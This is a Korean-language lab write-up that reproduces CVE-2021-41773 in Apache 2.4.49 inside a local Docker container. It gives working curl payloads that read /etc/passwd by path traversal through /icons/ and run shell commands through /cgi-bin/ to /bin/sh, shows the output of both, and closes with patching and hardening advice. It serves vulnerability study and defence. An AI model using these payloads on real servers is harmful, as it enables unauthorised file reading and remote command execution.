





# CVE-2021-41773 — Apache HTTP Server 2.4.49 Path Traversal & RCE

**Contributors**

-   전민규[@jeonmin0716002-sketch]

<br/>

## 1. 취약점 요약

Apache가 2.4.49에서 URL 경로를 정규화하는 로직을 변경하면서, `.%2e/`처럼 URL 인코딩된 `../`를 제대로 걸러내지 못하는 버그가 생겼습니다. 이로 인해 `/icons/`나 `/cgi-bin/`처럼 별칭(Alias)으로 열려 있는 경로를 통해 실제 파일시스템 경로 밖으로 탈출할 수 있습니다. `/icons/`만 열려 있어도 docroot 밖의 임의 파일을 읽을 수 있고, `/cgi-bin/`까지 CGI 실행 권한이 걸려 있으면 `/bin/sh`를 CGI처럼 실행시켜 명령 실행까지 가능해집니다.


### 참고 자료

-   [Apache HTTP Server 2.4.50 릴리즈 노트](https://httpd.apache.org/security/vulnerabilities_24.html)
-   [NVD - CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)

<br/>

## 2. 환경 구성

-   Docker 공식 이미지인 `httpd:2.4.49`를 그대로 사용하고, `cgi-bin` 실행 권한(`mod_cgid`, `Options +ExecCGI`)만 추가로 활성화하여 취약 조건을 맞췄습니다.
-   포트는 컨테이너 80을 호스트 8080으로 매핑했습니다.

디렉터리 구조는 다음과 같습니다.

```
Apache/CVE-2021-41773/
├── docker-compose.yml   # 취약 환경 세팅
├── Dockerfile           # httpd:2.4.49 + cgi 모듈/권한 활성화
└── poc/
    └── exploit.sh       # path traversal 파일 읽기 + cgi-bin 경유 RCE PoC
```

공식 Docker 이미지의 기본 `httpd.conf`는 `/cgi-bin/`을 이미 열어두지만 `mod_cgid` 로딩과 `Options ExecCGI`는 기본적으로 꺼져 있어서, Dockerfile에서 관련 설정을 활성화했습니다.
이 설정이 없으면 파일 읽기까지는 가능하지만 RCE까지는 이어지지 않습니다.

<br/>

## 3. 취약 조건 정리

1.  Apache 버전이 정확히 2.4.49여야 합니다 (2.4.50은 패치됐지만 CVE-2021-42013으로 다시 우회 가능합니다).
2.  `/icons/`, `/cgi-bin/`과 같은 alias 경로에 접근 권한(`Require all granted`)이 설정돼 있어야 합니다.
3.  docroot 밖 경로가 별도로 차단되어 있지 않아야 합니다.
4.  RCE까지 가려면 `mod_cgi`/`mod_cgid`가 활성화돼 있고 `Options +ExecCGI`가 설정돼 있어야 합니다.

또한 파일 읽기 테스트는 `/cgi-bin/`이 아니라 `/icons/`로 진행해야 합니다. `/icons/`는 정적 파일 경로이므로 파일 내용이 그대로 응답으로 반환됩니다.

<br/>

## 4. 재현 절차

### 4-1. 취약 환경 세팅

```
cd Apache/CVE-2021-41773
docker compose up --build -d
docker compose logs httpd
```


### 4-2. Path Traversal로 파일 읽기

`--path-as-is` 옵션을 추가하면 인코딩된 `../`가 그대로 서버까지 전달됩니다. 이 옵션이 없으면 curl이 자체적으로 `../`를 정리해버려서 payload가 서버에 도달하기 전에 손상됩니다.

```
curl -s --path-as-is "http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

`.%2e/`가 디코딩되면 `../`가 되는데, 2.4.49는 이 인코딩된 형태를 걸러내지 못합니다. `/icons/`가 매핑된 실제 경로에서 상위로 여러 번 탈출하여 `/etc/passwd`까지 도달합니다. `/etc/passwd` 내용이 그대로 출력되면 성공입니다.

### 4-3. cgi-bin 경유 RCE

```
curl -s --path-as-is -d 'echo Content-Type: text/plain; echo; id' \
    "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```

이번에는 `/cgi-bin/`을 통해 같은 방식으로 탈출하여 `/bin/sh`를 가리키게 만듭니다. `mod_cgid`가 이 경로를 CGI로 인식하여 실행하는데, 이때 POST 요청 본문이 그대로 `sh`의 표준입력으로 전달됩니다. 본문에 `id`를 넣으면 그 실행 결과가 응답으로 반환됩니다. 맨 앞의 `echo Content-Type:...`은 CGI 응답이 헤더 한 줄과 빈 줄로 시작해야 하기 때문에 붙여준 것입니다.

### 4-4. 결과 확인

curl 응답에 `id` 실행 결과(`uid=... gid=...`)가 그대로 출력되면 RCE에 성공한 것입니다. 컨테이너 안에서 직접 실행한 `id`와 비교하여 같은 사용자로 실행됐는지 확인하면 됩니다.

```
docker compose exec httpd id
```

<br/>

## 5. PoC 코드

[`poc/exploit.sh`](./poc/exploit.sh) 스크립트로 아래 단계를 한 번에 실행할 수 있습니다.

1.  `/icons/` 경유 traversal로 `/etc/passwd` 읽기
2.  `/cgi-bin/` 경유로 `/bin/sh`까지 탈출시켜 POST body에 담은 명령 실행

`--path-as-is` 옵션이 없으면 curl이 URL 안의 `../`나 인코딩된 dot-segment를 자체적으로 정리해버릴 수 있어, payload가 서버에 도달하기 전에 손상될 수 있습니다.

<br/>

## 6. 실행 결과

컨테이너 기동 로그입니다. `Apache/2.4.49 (Unix) configured -- resuming normal operations`로 취약 버전이 정상 기동된 것을 확인합니다.

```
cve-2021-41773-httpd  | AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.20.0.2. Set the 'ServerName' directive globally to suppress this message
cve-2021-41773-httpd  | AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.20.0.2. Set the 'ServerName' directive globally to suppress this message
cve-2021-41773-httpd  | [Sat Jul 11 10:45:51.296992 2026] [mpm_event:notice] [pid 1:tid 1302379428465921] AH00489: Apache/2.4.49 (Unix) configured -- resuming normal operations
cve-2021-41773-httpd  | [Sat Jul 11 10:45:51.330251 2026] [core:notice] [pid 1:tid 1302379428465921] AH00094: Command line: 'httpd -D FOREGROUND'
```



`curl -I`로 확인한 버전 헤더입니다.



`/etc/passwd` 읽기 결과입니다 (`/icons/` 경유 traversal).

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```



`id` RCE 결과입니다 (`/cgi-bin/` 경유 `/bin/sh` 실행).

```
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```



`poc/exploit.sh`로 위 과정을 한 번에 실행한 결과입니다.



<br/>

## 7. 대응 방안

-   가장 확실한 방법은 Apache를 2.4.51 이상으로 업데이트하는 것입니다. 2.4.50은 이 CVE 자체는 막았지만 인코딩 우회(CVE-2021-42013)가 곧바로 발견됐으므로 2.4.51 이상으로 업데이트 해야합니다.
-   `/icons/`, `/cgi-bin/`과 같은 alias 경로의 접근 권한을 제거하거나 IP 기반으로 제한하는 것으로 대응이 가능합니다. `mod_cgi`/`mod_cgid`를 사용하지 않는 서버라면 해당 모듈을 로드하지 않는 것만으로 RCE 경로를 차단할 수 있습니다.
-   WAF에서 `%2e` 인코딩이 반복되는 경로 패턴을 탐지하거나, 웹서버 프로세스를 최소 권한 계정으로 운영하여 RCE가 발생하더라도 피해 범위를 제한하는 것을 함께 고려하면 좋습니다.
